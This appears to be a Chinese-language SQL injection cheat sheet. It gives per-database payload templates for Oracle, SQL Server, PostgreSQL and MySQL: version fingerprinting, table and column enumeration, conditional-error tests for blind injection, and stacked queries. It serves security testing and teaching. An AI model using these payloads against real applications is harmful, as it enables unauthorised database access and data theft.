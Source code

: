 ## 数据库版本

你可以查询数据库以确定其类型和版本。这些信息在制定更复杂的攻击时很有用。

| 数据库        | 语句                                                              |
| ---------- | --------------------------------------------------------------- |
| Oracle     | `SELECT banner FROM v$version` `SELECT version FROM v$instance` |
| Microsoft  | `SELECT @@version`                                              |
| PostgreSQL | `SELECT version()`                                              |
| MySQL      | `SELECT @@version`                                              |

## 数据库内容

你可以列出数据库中存在的表，以及这些表包含的列。

| 数据库        | 语句                                                                                                                        |
| ---------- | ------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT * FROM all_tables` `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`                           |
| Microsoft  | `SELECT * FROM information_schema.tables` `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables` `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tables` `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

## 条件错误

你可以测试单个布尔条件，如果条件为真则触发数据库错误。

| 数据库        | 语句                                                                                      |
| ---------- | --------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`           |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## 批处理（或堆叠）查询

你可以使用批处理查询来连续执行多个查询。请注意，虽然后续查询被执行，但结果不会返回给应用程序。因此，这种技术主要用于与盲目漏洞有关的情况，在这种情况下，你可以使用第二个查询来触发一个 DNS 查询、条件错误或时间延迟。

| 数据库        | 语句                           |
| ---------- | ---------------------------- |
| Oracle     | 不支持批处理查询                     |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE` |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE` |
